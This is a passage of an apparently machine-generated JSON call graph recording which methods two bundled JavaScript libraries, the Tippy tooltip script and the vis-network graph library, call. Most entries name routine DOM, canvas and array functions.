"setProps"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "getBoundingClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "setProps"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "getBoundingClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "getBoundingClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "requestAnimationFrame"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "querySelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "calc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "bezier"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "setDefaultProps"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "disable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "setProps"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "setProps"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "getBoundingClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "show"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "show"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "show"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "show"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "setProps"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "closest"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "disable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "setProps"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "setProps"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "copyright"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "copyright"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "propertyIsEnumerable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "arc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "arc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "arc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "arc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "arc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "bezierCurveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "bezierCurveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "bezierCurveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "bezierCurveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "bezierCurveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "bezierCurveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "bezierCurveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "bezierCurveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "bezierCurveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "bezierCurveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "rect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getElementsByTagName"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "hsla"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "hsla"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "hsla"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "listeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "close"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "open"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "close"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getPrototypeOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getterFor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "this"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getterFor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getOwnPropertyNames"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getterFor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getOwnPropertyDescriptor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", 